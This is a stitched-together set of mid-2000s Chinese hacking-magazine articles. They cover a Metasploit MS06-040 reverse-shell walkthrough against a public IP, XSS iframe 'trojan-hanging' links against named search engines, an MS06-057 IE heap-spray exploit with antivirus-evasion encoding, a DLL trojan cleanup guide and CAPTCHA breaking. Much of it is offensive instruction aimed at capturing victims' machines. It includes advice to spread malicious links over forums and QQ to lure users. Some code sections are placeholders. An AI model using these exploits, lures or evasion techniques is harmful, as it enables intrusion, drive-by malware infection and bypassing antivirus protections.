### 修补漏洞

发现这个漏洞的时候，和剑心讨论了一下，友情提供如下修补方法，在 `comm_ID` 进入 Update 语句之前，加入如下过滤语句：

```asp
If Not IsInteger(comm_ID) then
  response.write "非法参数，程序终止"
  response.End
End if
```

同样，对 `colledit.asp` 中的 `col_ID` 和 `downledit.asp` 中的 `downl_ID`，也可参照上面的过滤方式进行修补。

WTF，2006年8月微软一下子公布了10几个安全更新，在圈子里，Metasploit Framework 公布了针对 MS06-040 漏洞利用代码，看来我们又有新东西可以玩了，相信看完这篇文章，一定能让读者朋友们满载肉鸡而归。

适合读者：入侵爱好者；漏洞爱好者

前置知识：无

## 用 Metasploit Framework 体验 MS06-040

文／图 lxjcb


### 漏洞简介

Microsoft 安全中心在2006年8月8号公布了一个严重的漏洞 MS06-040，该漏洞可以被攻击者远程利用。如果该漏洞一旦被成功利用，就会使攻击者获得 SYSTEM 权限，完全控制目标的系统。

### 战前准备

本文的测试目标是 Windows 2000 Server SP4。该漏洞存在于 Server 服务中，大家可以去微软安全中心看漏洞的详细介绍。

N年前，许多溢出爱好者就开始收藏各类的溢出攻击程序，以方便随时使用。但是散乱的溢出程序整理起来确实很让人烦心，于是便诞生了一款漏洞利用程序的集合工具 Metasploit Framework。

8月11日，MS06-040 的第一款漏洞利用程序就是在 Metasploit Framework 更新的，大家可以去 http://www.metasploit.com 下载最新的 3.0 版本，安装好了以后运行 `MSFUpdate` 来加载 MS06-040 的漏洞利用程序 `netapi_ms06_040`。

关于此工具的详细命令我就不多说了，大家可以用 `help` 命令来查看。

此漏洞利用程序需要对方打开445端口，不然会返回“Could not establish SMB session（无法建立 SMB 会话）”的提示，导致利用失败。

Metasploit Framework 有2个版本，1个是 MSFConsole，一个是 Web 版的。

通过命令 `use netapi_ms06_040` 加载漏洞利用程序，用 `show targets` 查看，如图1所示。


图1

用 `set TARGET 1` 选择目标 Win 2000，用 `show payloads` 可以查看要使用的 ShellCode。我们这里用 `set PAYLOAD win32_reverse`（采用反向连接方式），用 `set RHOST 218.88.202.92` 设置目标 IP，`set LHOST 218.88.188.21` 当然是我们自己的 IP 了，反向连接必须的，如图2所示。


图2

好了，输入 `check` 命令可以查看目标是否存在漏洞，不过 `check` 只是探测，还是有些不准确。我们输入 `exploit` 来溢出试试，结果成功获得 CMDShell，如图3所示。


> 认真的朋友可能会发现连接的 IP 是 192.168.1.2。这里我觉得还是有必要多说一下，因为我是使用路由器上网，192.168.1.2 是我的内网 IP，而外网 IP 就是 218.88.188.21。而这个反向连接的 ShellCode 则是默认连接我机器上监听的 4321 端口。所以这就需要转发，或者说是映射了。

### 2. MSFWeb

关于 Web 版本我简单说一下。Web 版本适合一些新手朋友使用，只是获得的 CMDShell 没命令行的那么流畅，有时候还有乱码！

首先运行 MSFWeb，然后打开 IE，输入 http://127.0.0.1:55555 便可以看见图形界面了，找到 MS06-040，如图4所示。


点击进入后选择目标版本，我这里选择1，Windows 2000，如图5所示。


点击进入后，选择 ShellCode，反向连接，如图6所示。


选择好以后，填写目标 IP 和本机 IP，如图7所示。最后点击 Exploit 进行溢出攻击，如图8所示。


点击 Session 13，成功获得 CMDShell。

**脚本小字：** 信息爆炸的时代，搜索引擎信息过滤与查询的重要作用毋庸置疑，但习惯有问题搜一下的搜索引擎使用者们，可曾想过貌似非常合法的搜索引擎，其实有着很大的安全隐患，往往用户一不小心就会被人利用搜索引擎挂马控制计算机。

适合读者：黑客爱好者、网民  
前置知识：无

## 细数具有“中国特色”的搜索引擎漏洞

## —— 利用搜索引擎挂马的艺术

文/图 冰河洗剑

前段时间笔者玩搜索引擎玩上了瘾，发现了一个百度及众多搜索引擎的网页快照跨站挂马漏洞。本想后来继续再玩时，竟然发现了更严重的搜索引擎漏洞，利用起来更加简单直接。国内的众多搜索引擎都存在着这个跨站漏洞，危害极为严重。为了引起国内网站工作者对安全的重视，下面就逐一分析检测国内流行的搜索引擎——请各大搜索网站在忙于商业竞争、大力宣传第四代搜索引擎之类的噱头时，关注一下自身的网站安全！关注一下用户的体验吧！

本文笔者对国内众多的搜索站点都进行了检测，检测的结果是惊人的：大部分搜索引擎都存在跨站挂马的漏洞。笔者不由感慨，国内真的没有安全的搜索站点了吗？反观国外的各个搜索站点，从 Google、Yahoo 到 MSN、AOL Search、Lycos、Netscape Search 等，没有一个站点有类似的安全隐患，难道搜索引擎的跨站漏洞是“中国特色”？

检测前，请先准备网页木马一只（假设为 `http://www.baidu.com`），眼镜一副（以防检测过程中大跌眼镜，导致检测无法继续进行……）。

### 检测TOM搜索引擎

废话不多说了，直接开工玩玩TOM搜索（`http://i.tom.com/`）。

#### 1. 直接挂马测试

在搜索关键词中输入一个HTML浮动框架语句“`<iframe>`”，点击“TOM搜索”，搜索结果出来了，看看是什么，如图1所示——没想到吧！结果是一个空白网页框架！还不知道这意味着什么吗？那好，往下看。


图1

输入“`<iframe src="http://www.baidu.com"></iframe>`”，再“TOM搜索”一下，看到了吧？我们的“木马网页”（百度网页）被嵌入TOM的搜索结果页面中了，如图2所示！


图2

该明白了吧？TOM搜索是可以跨站的。反过来，跨站就要有跨站的样，别让木马网页显示在网页中。我们把搜索关键词改造为：`<iframe src="http://www.baidu.com" width=0 height=0></iframe>`，这样在结果页中提示“没有找到”的相关结果时，隐藏的木马网页已加载。

这种效果不够直观，换成新浪网页：`<iframe src="http://www.sina.com.cn" width=0 height=0></iframe>`，搜索后页面依旧，但地址栏可看到打开新浪网页提示，并弹出广告窗口。

网页中那几个顽固不化的广告窗口，说明木马网页已在搜索页面中打开了。如图3所示。将其中网址换成你的网页木马地址，再把搜索链接发布到论坛或QQ中，让别人访问这个跨站链接。


图3

以前跨站欺骗常用IP地址变形，如十六进制、URL编码、`@`欺骗等，但这些招数已经老了。这里给出利用TOM进行跨站攻击链接的方式。

```
http://search.tom.com/search.php?f=8&ci=3&...&word=%3Ciframe+src%3D%22http%3A%2F%2Fwww.baidu.com%22+width%3D0+height%3D0%3E%3C%2Fiframe%3E...
```

在多数用户看来，前面的 `http://search.tom.com/search.php?f=` 似乎可信，链接具有较强欺骗性。若嫌链接过长，可进一步简化。

```
http://search.tom.com/search.php?word=%3Ciframe+src%3D%22http%3A%2F%2Fwww.baidu.com%22+width%3D0+height%3D0%3E%3C%2Fiframe%3E
```

还可以进行经典IP地址转化：如将百度IP转十六进制后加 `0x`，再替换到链接中。

```
http://search.tom.com/search.php?word=%3Ciframe+src%3D%220xDCB512A5%22+width%3D0+height%3D0%3E%3C%2Fiframe%3E
```

发送链接时可配合诱导性文案，提高点击概率。

#### 2. 进阶测试

有趣的是，在对TOM的图片及音乐搜索测试时，关键词“`<iframe src="http://www.baidu.com"></iframe>`”被过滤成“`iframe src=http://www.baidu.com/iframe`”，无法进行跨站攻击。

### 为什么在网页搜索中就不能严格控制一下用户的输入呢？

在网页搜索中，不仅可以直接执行 `<iframe></iframe>` 语句，还可以执行其它的JavaScript语句，例如搜索 `` 时，在搜索结果页面中就显示出了百度页面上的图片，如图4所示。


### 检测新浪网搜索引擎

TOM是国内几个门户网站之一，既然首先检测了它，那剩下的几个大门户网站搜索都要检测一下的，这次轮到新浪的“爱问”搜索了（`http://iask.com.cn/`）。

#### 1. 过滤不完善的“爱问”搜索

先试一下“爱问”的“网页”搜索，还是输入跨站代码 `<iframe src="http://www.baidu.com"></iframe>` 进行一下搜索，结果搜索出来没有什么不正常的地方。又检测了“新闻”“本地”“知识人”、Blog搜索等，都能正常搜索；再试一下“图片”搜索时，页面显示不正常，如图5所示。结果中出现了页面框架，但是没有能正常显示跨站的网页，这是为什么呢？


查看了一下源文件，发现输入的跨站代码被过滤成了 `<iframe src=&quot;http://www.baidu.com&quot;></iframe>`，也就是说双引号被过滤掉了，但是最重要的 `<>` 符号却没有过滤。改用ASCII码替换双引号，输入 `<iframe src=&#34;http://www.sina.com.cn&#34;></iframe>`，结果依旧，但是奇怪的是在源文件中，显示输入代码没有发生变化，如图6所示。

输入 `` 后，页面发生变形，如图7所示。查看源文件发现代码中的双引号又被过滤为了 `^\"`。

没有双引号的语句，笔者所能想到的只有 `<script>alert(document.cookie)</script>` 了。于是再输入进行搜索，这下成功了，弹出了新浪搜索站点的Cookies信息，如图8所示。不过这个信息也没有什么用处——看来“爱问”过滤不够完善，不过以笔者的技术还无法突破其过滤。


#### 2. “博士”的幼稚跨站漏洞

虽然新浪爱问没有跨站漏洞，不过新浪还有一个搜索产品——“查博士”（`http://cha.iask.com/`），这个博士可犯下了幼稚园才会犯的错误。

与上面的TOM一样，可直接利用 `<iframe>` 语句跨站挂马，如图9所示，跨站的链接地址简化后如下：

```
http://search.iask.com/cgi-bin/search/search.cgi?...searchkey=%3cIFRAME%20SRC%3d%22HTTP%3a%2f%2fWWW%2eBAIDU%2eCOM%22%3e%3c%2fIFRAME%3e
```

同样也可对其进行框架隐藏，以及编码转换等，进一步欺骗攻击。

### 一个都不能少——检测网易搜索引擎


图9

在进行“综合”“网页”“网站”及“新闻”搜索检测时，网易搜索都没有任何问题，而且过滤得非常完善，搜索结果页面中显示用户输入代码没有发生改变。但是在进行图片搜索时，奇迹出现了，大概是网站程序编写者忘记对其进行过滤，页面中又赫然显示出了“木马”网页，如图10所示。跨站挂马链接地址可简化为：`http://pic.so.163.com/picSearch.php?q=%3Ciframe+src%3D%22http%3A%2F%2Fwww.baidu.com%22%3E`。


图10

更奇怪的是，在进行“字典”搜索时，页面居然又进行了不完全过滤，没有过滤掉框架语句，但是将双引号进行了过滤，因此无法正确显示木马网页。让人捉摸不透的是，一个网站的搜索居然有三种不同的过滤方式，实在是无语！

### 2. 利用图片漏洞挂马

在用图片语句进行网易的“网页”搜索检测时，输入“``”，竟然也能在搜索结果网页中的“没有找到匹配的内容”处，显示指定的百度标记图片，如图11所示。这有什么用呢？可以利用前段时间爆出的WMF图片漏洞制作出木马图片，然后再进行跨站挂马攻击。

### 不会守门的狗——检测搜狗搜索引擎

在几大门户网站搜索引擎中，搜狐的搜狗（`http://www.sogou.com/`）也是漏洞多多。

#### 1. 搜狗音乐直接跨站挂马


图11

搜狗的“网页”“新闻”和“图片”搜索都没有什么问题，“音乐”搜索可以直接跨站挂马，如图12所示，而且跨站链接也比较简洁：


图12

```
http://d.sogou.com/music?query=%3Ciframe+src%3D%22http%3A%2F%2Fwww.baidu.com%22%3E%3C%2Fiframe%3E
```

#### 2. 不安全“地图”搜索

搜狗“地图”搜索居然也有直接跨站的漏洞，如图13所示，而且在“地图”搜索中也可以注入漏洞图片木马。但是搜狗对用户输入的过滤很奇怪，挂图片时使用 `` 不能显示图片，但是换一个图片却能正常显示。查看源文件，原来是过滤了图片地址中的字符 `-`，只要漏洞图片地址不包含此字符就能正常挂马——挺可笑的过滤方式——或者说我不懂？！

### 通用网址，恶意插件很不爽

一直很讨厌通用网址这类的插件，没想到居然还要测试通用网址的搜索。在新浪、TOM、网易中搜索时，搜索结果页面中都有一个“访问通用网址 `<iframe src='http://......'`”的提示，于是点击后得到的通用网址搜索站点（`http://name.cnnic.cn/result.dll`），没想到测试之后，发现通用网址真是很让人不爽！在“搜索网址”中输入 `<iframe src='http://www.baidu.com'></iframe>` 后，搜索结果不正常，显示为空白页面，但是有未闭合的“>”字符提示。于是更改搜索链接后的关键字符，改造搜索链接地址为：`http://name.cnnic.cn/result.dll?c=|_sogou&q=iframe%20src=%22http://www.baidu.com/%3D%22...`，不仅在网页中挂马显示，而且很快就跳转到了所挂的木马网页去了，如图14所示。


图13


图14

### 腾讯SOSO，奇怪的本地过滤

腾讯的QQ家园、QQ空间等早就冒出了不少跨站挂马漏洞，不知道腾讯的搜索站点SOSO（`http://www.soso.com/`）安全性如何？

从“综合”“网页”“图片”“论坛”“音乐”“视频”和“新闻”等一系列搜索检测过去，检测“`<iframe><iframe></iframe>`”语句的时候，都没有发现漏洞。但是令人奇怪的是，执行“新闻搜索”检测“iframe”关键词时，发现页面显示不正常，出现了框架，莫非在SOSO的网页搜索中直接可进行网页预览？

仔细观察网站，发现跨站语句中的双引号和单引号都过滤掉了，最终变成了“iframe src=http://www.baidu.com/iframe”，搜索链接变为了“`http://www.soso.com/q?w=iframe+src%3Dhttp%3A%2F%2Fwww.baidu.com%2Fiframe&sc=news&nmt=c&news_type=on`”。

根据以往的QQ家园跨站经验，腾讯都是在本地进行过滤的，在服务器不对用户输入进行过滤，因此直接在地址栏中修改搜索链接为“`http://www.soso.com/q?w=<iframe src="http://www.baidu.com"></iframe>&sc=news&nmt=c&news_type=on`”，刷新后页面显示变形，出现了空白框架，如图15所示。分析网页源文件，发现挂马语句被截为了两段，因此导致页面不正常。


图15

总的来说，腾讯的SOSO搜索网过滤虽然不是很严，但是无法成功利用，所以算是略好一些的搜索站点。

### 其他搜索网站

此外，笔者还测试了其它的一些网站，比如“中华搜索”（`http://sou.china.com/`）、“天网搜索”（`http://www.tianwang.com`）、8848搜索（`http://go.8848.com/`）、“中搜”（`http://www.zhongsou.com/`）等。其中“中华搜索”的网页搜索功能在检测时，页面完全变形，并可跨站显示木马网页，如图16所示，其链接为：

```
http://sou.china.com/result.php?query=%3Ciframe+src%3D%5C%22http%3A%2F%2Fwww.baidu.com%5C%22%3E%3C%2Fiframe%3E+
```

“天网搜索”是北大网络实验室建立的一个搜索站点，在对“网页搜索”进行检测时，发现网页严重变形；在对“文件搜索”检测时，发现可以直接跨站挂马，如图17所示，其链接地址为：


图16


```
http://file.tianwang.com/cgi-bin/search?word=<iframe%20src="http://www.baidu.com"></iframe>
```

8848是一个非常悠久的购物搜索网站了，不过安全性却没有做到家，用户过滤不足导致可以直接跨站挂马，如图18所示，其链接为：

```
http://esearch.8848.com/search.dll?key=<iframe%20src="http://www.baidu.com"></iframe>
```

“中搜”也是一个比较有名的搜索站点，在进行“论坛”搜索时，发现可在搜索结果页面插入框架，但是无法正常显示木马网页，原因是对用户输入的“/”进行了过滤，如图19所示。

笔者对国内众多的搜索站点都进行了检测，检测的结果是惊人的，大部分都存在跨站挂马的漏洞，对用户输入过滤得比较好的仅有百度。可是百度的网页快照跨站挂马又是一个难以承受之痛——笔者不由感慨，国内真的没有安全的搜索站点了吗？反观国外的各个搜索站点，从Google、Yahoo到MSN、AOL Search、Lycos、Netscape Search等，没有一个站点有类似的情况，难道搜索引擎的跨站漏洞是“中国特色”？

虽然跨站漏洞对于搜索网站本身来说是没有任何危害，但是对于广大的用户来说呢？难道可以置广大用户的利益于不顾吗？再次希望国内各大搜索站点能对自身的安全性多留一点心，这是对用户负责的行为体现，也是有利于自身长远发展的品牌形象塑造。


适合读者：入侵爱好者、网马爱好者  
前置知识：JavaScript语言、汇编基础

## 从MS06-057到IE漏洞的分析及利用

文／图 何永强／H.S.T 黑侠

到微软网站上看安全公告，你会发现今年补的漏洞体现出了一个趋势：客户端漏洞暴得越来越频繁，特别是IE和Office系列的漏洞，这不，10月的公告里就分别有1个和4个，这和那些国内外专业漏洞挖掘组织或个人的努力密不可分。初学的朋友虽然不需要也暂时没能力去挖掘这些漏洞，但漏洞信息出来后，通过现有技术清楚地利用起来却不失为明智之举。Office漏洞影响不大，就不提其中的分析细节了。本文中，我将以MS06-057为例，详细讨论现在的IE漏洞该如何分析和利用。

### IE漏洞的一般特征及研究思路

- 1）漏洞起因有规律可循。不少漏洞是由ActiveX对象的方法引起的堆溢出，还有部分是传统的堆栈溢出。对前者，我们经常看到利用漏洞做好的网马里有下列形式的JavaScript语句。

```javascript
var target = new ActiveXObject('xxxx');
target.fun(参数1, 参数2...)
```

target就是创建的xxxx对象，而fun为该对象的一个方法。一般到Windows具体处理的时候，会引用类似于 `call [reg + disp]` 这样的指令。该指令访问一片内存，而这片内存中的内容是我们可以控制的，从而导致漏洞的产生。至于传统的堆栈溢出，国庆之前公布的VML漏洞（MS06-055）就是典型的一个，导致漏洞的语句如下：

```html
<v:fill method="AAAAAAAAAAAAAAAAAAAA...">
```

这个漏洞的产生就不是由JavaScript语句导致的，而是纯粹的HTML语句引起的。其它可能的一些漏洞起因，大家就具体情况具体分析，把握好主要的就可以了。

- 2）传播方式多样。利用漏洞做好网页木马后，放在特定站点上，可以通过邮件、QQ、MSN、媒体文件（如rm）等多种传播方式，诱使目标打开网马对应的URL。但是有个前提条件，就是其默认浏览器是IE，其它浏览器不一定存在这些漏洞。所以大家不要认为IE漏洞的影响不大，其实是可能造成很广泛的传播的。此外，为什么大家都不喜欢把html文件直接发送给目标呢？原因主要是用IE直接打开html文件，在Windows XP SP2下会弹出烦人的保护提示，如图1所示。如果通过浏览器访问URL来打开的话，很多时候不会弹出这样的提示，大家试试就知道了。


- 3）容易被查杀。大家知道，IE访问URL的时候一般是先把页面下载到本地的TIF（Temporary Internet Files）文件夹下后，再在本地打开。如果网马不加密的话，主流的杀毒软件，如麦咖啡、诺顿、OfficeScan、卡巴、瑞星等，都能根据页面代码中的特征脚本字段进行查杀或警告。以VML漏洞为例，如果发现页面中包含了 `<v:fill method="A..."`，且引号中的数据长度大于某个数值的时候，就认为是病毒。从这个角度讲，网马的构造以及脚本的加密技术，即使简单也显得十分有意义，具体的方法在后面介绍。

了解了IE漏洞的一些特征后，我们下面来看漏洞的基本研究思路，目的不是制定框架，而是希望以后有规范可循。我自己归纳了IE漏洞的研究思路，大致为下列几条：

- 1）获取PoC，初步判断漏洞类型。所谓PoC（Proof of Concept），是指技术演示，通俗地说，就是给出某个漏洞存在的样本文件。我们经常拿到漏洞发现者公布的PoC，大多只是触发漏洞而不能直接利用的，需要进一步调试。以VML溢出漏洞为例，PoC部分内容如图2所示。


通过PoC构造相应的测试网页，保存后通过记事本方式打开，仔细识别一下，应该就能看到问题脚本，如 `var target = new ActiveXObject('xxxx')`、`target.fun(参数1，参数2...)` 等，这些是引起堆溢出漏洞常见的Com函数。如果没这样的代码，则可以判断是否是堆栈溢出。漏洞类型的基本判断，可以让后面的分析思路更清晰。

- 2）动态调试，深入分析漏洞起因。拿到漏洞PoC，其中的代码，不论是Com函数还是普通的脚本语句，除非使用专门的脚本调试器，否则其自身是很难调试的。我们能够做的，是找到系统处理这段脚本的模块（如WebVM.dll），以及相应的导致漏洞产生的汇编代码，并分析清楚这部分汇编代码是怎么处理对应的脚本语句的。至于分析工具，为了使用方便，推荐WinDBG（比较新的版本是6.6）就足够了，尽管其异常拦截功能没SoftIce那么强。当然，条件允许的话最好也准备IDA PRO（最新版5.0），可同步分析相关的反汇编代码。

- 3）探索ShellCode执行点。分析了漏洞起因之后，接下来应该考虑如何成功地加入并执行我们的ShellCode了。一般来说，堆溢出漏洞由于跳转代码难以确定，通常采取暴力扩充内存，然后在这些内存块中循环填入包含了ShellCode和NOP指令的大数据块，并通过在脚本中设置适当的Com函数（如多次调用该函数，并将参数适当设置）来触发漏洞，导致ShellCode的执行。这种方法从成功率上讲是很可靠的，但缺点是要暴力扩充内存，比较消耗系统资源，实际应用中可能被目标发现。至于堆栈溢出，可以是传统的改JMP ESP方式利用；如果函数返回之前就发生了溢出，那就只能暴力扩充内存，并覆盖SEH结构为我们填写可控数据块的地址，这个就要具体情况具体分析了。

- 4）设计网页木马，并进行免杀处理。网页木马是IE漏洞利用的成果，同时也是杀毒软件的重点“封杀对象”，因此，应该先按照需求，写出满足功能时的常规脚本语句；然后分别对ShellCode、JavaScript脚本以及整个HTML页面分别进行加密或编码处理。最后，一定不要忘记在各个版本杀毒软件环境下多加测试。一般IE漏洞利用的整个思路过程就是这样，下面我们以MS06-057漏洞为例进行具体分析。

### 实例讲解MS06-057漏洞的分析及利用

这个漏洞信息在公告出来之前就已经比较流行了，漏洞内容简单地讲就是IE调用WebVM.dll中代码在处理……ActiveX控件 WebViewFolderIcon 的 setSlice 方法调用时出现了堆溢出漏洞。我们按照前面的思路进行分析如下。

- 1）获取 PoC 并分析漏洞类型。刚开始我们对漏洞细节一无所知，不过很快有人公布了 PoC，大致内容如图3所示。

```javascript
// PoC 脚本片段（构造 spray 与 setSlice 调用）
// ...
```


通过 PoC 生成测试页面 PoC.html 进行验证，果然出现了异常。同时我们可以初步判断这很可能是一个堆溢出漏洞。

- 2）动态分析。打开 IE，同时启动 WinDBG，在“File->Attach to a Process”中选择“iexplore.exe”，按 F5 或 g 命令继续运行。


将 PoC.html 拖入 IE 窗口，调试器在相关语句中断下来，如图5所示。输入命令 `d edi`，显示内存无效，说明在拷贝数据时访问了非法地址。

```text
ModLoad ...
(7b.2dc): Access violation ...
... rep movs dword ptr ...
```


输入命令 `u eip`，结果如图6所示。可惜 EIP 后面并没有可直接与 ShellCode 相关的指令，因此需要继续调整脚本与调试思路。

```asm
u eip
... rep movs ...
... ret ...
```


这是一个“修改脚本->调试->再修改脚本”的过程，需要耐心。经过一段时间的修改测试，我们将脚本改为如下形式。

```javascript
for(i=0;i<70;i++){
  try{
    var tar = new ActiveXObject("WebViewFolderIcon.WebViewFolderIcon.1");
    tar.setSlice(0x7ffffffe,0x01010101,0x05050505,0x03030303);
  }catch(e){}
}
```

大家可以测试，在 WinDBG 中设置断点后，页面会在相关地址停下，再单步执行可在 `5a6e8840` 附近停止，如图7所示。

```asm
webvw!CWebViewFolderIcon::...
5a6e883c 50   push eax
...
5a6e884d 50   push eax
```


这可能是我们感兴趣的代码位置。在 `EIP=5a6e8840` 时输入命令 `d edx+64`，如图8所示。

```text
d edx+64
05050545 05 05 05 05 ...
...
```


这些就是页面中构造的填充内存（NOP）指令，后面跟着 ShellCode。退出 WinDBG 后直接打开页面，ShellCode 果然执行。最后将漏洞代码整理如下：

```asm
5A6E8828 8B8698010000  MOV EAX,[ESI+00000198]
5A6E882E 85C0          TEST EAX,EAX
5A6E8830 7426          JZ 5A6E8858
5A6E8832 8B8E94010000  MOV ECX,[ESI+00000194]
5A6E8838 85C9          TEST ECX,ECX
5A6E883A 7407          JZ 5A6E8843
```

`tar.setSlice(0x7ffffffe, p2, p3, p4)`，此时 `eax=p4`，`ecx=p2`，`edx` 不一定是 `p3`。必须保证 `[p4]` 可读且 `edx` 来源于 `[eax]`，因此要保证该区域填充为 `0505……`

```asm
5A6E883C 8B10  MOV EDX,[EAX]
5A6E883E 51    PUSH ECX
5A6E883F 50    PUSH EAX
```

问题就在这里，此时 `edx=05050505`，因此 `[edx+64]` 附近全是 `05050505……`

- 3）确定 ShellCode 的执行点。结合这个漏洞，我们主要讨论暴力扩充内存。基本方法是这样的：申请多片内存，每片内存中都是填充 NOP 指令 + ShellCode 的组合（统称可控数据），这样将可能的 `[EDX+64]` 地址附近全部写入可控数据，使得 ShellCode 几乎肯定会被执行。在这个过程中，同样有几点需要注意：
  - （A）申请内存使用 JavaScript 的 `new Array` 方法，然后直接填充数据即可。
  - （B）NOP 指令可以是任何不影响 ShellCode 功能的指令，如 `05`、`04`、`41` 等。
  - （C）页面中的很多代码都是 JavaScript，为了更好地理解和编写这些代码，最好先学习 JavaScript 语法。

```javascript
mery = new Array();
for (i=0; i<heapBlocks; i++)
{
    mery[i] = spraySlide + payLoadCode;
}
```

- 4）最后就是网页木马的构造及加密处理。其实网页木马的构造前面已经涵盖了。总结一下，页面内容分 HTML 和 JavaScript 两部分，其中 JavaScript 部分又分为内存块申请、可控数据组合，以及可控数据的填充等几部分，这些都是常见语句。这里主要讨论加密处理，包括以下几点：
  - （A）ShellCode 的编码：一般将字符串两组合作为 `%uXXYY` 形式的 16 位字符串，例如 `\xeb\x10` 编码后成为 `%u10eb`，注意两字节顺序。
  - （B）JavaScript 语句的编码：将语句中每个字符变为 `%ASCII` 形式，再由 `unescape` 解码、`eval` 执行。
  - （C）HTML 页面加密：可用专用工具对 HTML 语句进行加密处理，以提高查杀难度。

有些杀毒软件（如瑞星、卡巴）现在可以在内存中进行查毒，常规网马即使加密后也经常难以免杀，因此需要更广泛测试。OfficeScan 以及国内一些软件在某些场景下仍可处理。

至此，大部分工作就完成了。构造好网页木马后，应在各种杀毒软件下测试，记录哪些会被杀、哪些可“逃脱”。文中提到 JavaScript 语句编码前页面、ShellCode 功能（打开计算器）等，按上述方法可实现加密版本。

### 结语

本文结合对 MS06-057 漏洞的分析，介绍了 IE 漏洞的一般特征和研究思路。整个过程技巧并不复杂，但需要细心、耐心和扎实基础。漏洞本身并非最重要，关键是通过一次讨论总结出一套学习和研究方法。

## 通讯系统加载恶意 DLL 木马

相信大家对 DLL 木马都非常熟悉了，它不像普通 `exe` 木马那样便于识别和清理，隐蔽性很强，可嵌入到如 `rundll32.exe`、`svchost.exe` 等正常进程中。

> 假设 McAfee 杀毒软件报告：

- `defds.dll` 删除失败
- `fdgeg.com` 删除失败  
  路径涉及：`C:\Documents and Settings\Administrator\Local Settings\Temp\defds.dll` 与 `C:\Windows\ime\fdgeg.com`

据此可判断 `defds.dll` 可能是 DLL 木马。可先用 `icesword` 查看系统进程，定位调用该 DLL 的进程（例如 `notepad.exe`），尝试结束该进程；若进程很快重启，则可能存在守护进程（如 `fdgeg.com`）负责拉起。

接着在“我的电脑→工具→文件夹选项→查看”中取消“简单文件共享”，到 `C:\Windows\ime` 找到 `fdgeg.com`，修改其“属性→安全→高级”中的权限继承与访问控制项，使当前用户可对其删除。

然后通过 `icesword` 终止 `notepad.exe`，并删除 `Temp` 中的 `defds.dll`；再回到 `C:\Windows\ime` 删除 `fdgeg.com`。必要时重复设置权限项，确保可彻底清除。

最后别忘了在注册表启动项中删除该 DLL 木马相关项，这样即可将该顽固 DLL 木马从系统中彻底清除。


WTF，以前看过一部电影，叫“海上钢琴师”，影片讲述了一艘游轮上的天才钢琴家的故事，主人公的名字就叫 1900……

看完以前的关于百度验证码破解的文章以后，有读者询问遇到噪音太多，并且变换很复杂的验证码该怎么处理？本期将做一个完整的答复，就当礼物送给大家吧！

适合读者：程序员，网络安全从业者

前置知识：计算机图形学基础，高等数学基础

## 再破百度验证码！——All 的艺术

文/图 罗清蓝

> 拿钢琴来说，键盘有始亦有终，我知道 88 个键就在那里，错不了。它们并不是无限的，而你，才是无限的。你能在键盘上表现的音乐是无限的……  
> ——《海上钢琴师》


其实电脑技术和钢琴是异曲同工的，电脑就只有 84 个键，而我们却能赋予它生命，让它表现出无限的精彩！也许有时候，我们会遇到一些挫折与困难，但是只要有克服它的信心并且坚持到底，我们就能打败它，从而战胜它！

## 感悟“巴赫万变”

紧接 05 年 12 月黑防，就在笔者写好上篇文章以后，百度贴吧的验证码居然更换了……不仅使用了先进的干扰算法，连随机地址都进行了加密运算，并且还增加了图像渐变技术……如果单单使用上文的方法，那么将不能对其准确识别！

## 启示

其实这次要说变化，最多的还是图片的噪音，如图1所示。那么是不是说只要突破图片的噪音，我们就能很容易地提取图像特征，然后利用上文的方法对其进行识别呢？——Right!


## 巴赫《赋格与前奏曲》

下面所讲的内容，属于一门新兴的学科：数学形态学（Mathematical Morphology）。它通过物体和结构元素相互作用的运算，得到物体更本质的形态……在图像处理中的应用主要是观察和处理图像、描述图像几何参数和特征等。

- 1. **元素**：设有一幅图像 X，若点 a 在 X 的区域以内，则称 a 为 X 的元素，记作 a∈X（如图2）。
- 2. **B 包含于 X（included in）**：对 B 中所有元素 ai，均有 ai∈X，则称 B 包含于 X，记作 B⊂X（如图3）。
- 3. **B 击中 X（hit）**：若存在一个点，它既是 B 的元素，又是 X 的元素，则称 B 击中 X，记作 B↑X（如图4）。


## 4. B 不击中 X（miss）

设有两幅图像 B、X。若不存在任何一个点，它既是 B 的元素，又是 X 的元素，即 B 和 X 的交集是空，则称 B 不击中 X，记作 **B ∩ X = Φ**。其中 ∩ 是集合运算相交的符号，Φ 表示空集。


### 5. 补集

设有一幅图像 X，所有 X 区域以外的点构成的集合称为 X 的补集，记作 **Xᶜ**。显然，如果 **B ∩ X = Φ**，则 B 在 X 的补集内，即 **B ⊂ Xᶜ**。


### 6. 结构元素（structure element）

设有两幅图像 B、X。若 X 是被处理的对象，而 B 是用来处理 X 的，则称 B 为结构元素，又被形象地称作刷子。结构元素通常都是一些比较小的图像。

### 7. 对称集

设有一幅图像 B，将 B 中所有元素的坐标取反，即令 (x, y) 变成 (-x, -y)，所有这些点构成的新集合称为 B 的对称集，记作 **Bᵛ**。


介绍了这些基础定义后，下面进入验证码去噪的形态学方法。

## 肖邦《革命练习曲》

腐蚀（Erosion）把结构元素 B 平移 a 后得到 Bₐ，若 Bₐ 包含于 X，就记下这个 a 点。所有满足条件的 a 点组成的集合称作 X 被 B 腐蚀的结果，公式可表示为：**E(X) = {a | Bₐ ⊂ X} = X ⊖ B**。


图8中 X 是被处理对象，B 是结构元素。腐蚀后结果会在 X 范围内收缩，相当于剥掉一层边界。若 B 对称，X 被 B 腐蚀与被 Bᵛ 腐蚀结果相同；若 B 非对称，结果不同。

怎样进行腐蚀运算：左边为被处理图像 X（二值图像，针对黑点）；中间为结构元素 B，标有 origin 的点是中心点。将 B 的中心点与 X 上点逐一对齐，若 B 上所有点都在 X 范围内则保留该点，否则去掉。


右侧给出腐蚀结果：它仍在原 X 范围内，但包含点更少，表示 X 被腐蚀掉一层。此方法可快速去掉验证码噪音并保留字符。

## 贝多芬《皇帝曲》

将验证码图像先做二值化，再进行腐蚀运算，如图11、图12所示。可以看到噪音被去除并定位到相应字符特征。


仅用 HOUGH 变换还不够，还需加入拐角判断等运算。若腐蚀后部分字符特征不明显，可再做膨胀运算以增强清晰度，如图13所示。


识别验证码的方法到此结束。类似思路也可用于其他网络限制场景：找到弱点并结合图像处理知识进行破解。

## 肖邦《即兴幻想曲》

结语段：以“即兴幻想曲”作结，强调艺术创造与技术探索的关系，并表达对网络安全发展的期望与祝愿。

WTF：亚洲最大的网络游戏、电子娱乐公司——盛大，众人瞩目的焦点。在不久前被黑客成功入侵，很早以前他们公司就因为一起官网挂马事件让业内哗然不已，也让他们公司对网络安全领域投入了很多资金和精力，但是效果如何呢？请看 Andyower 对其官方网站的测试。

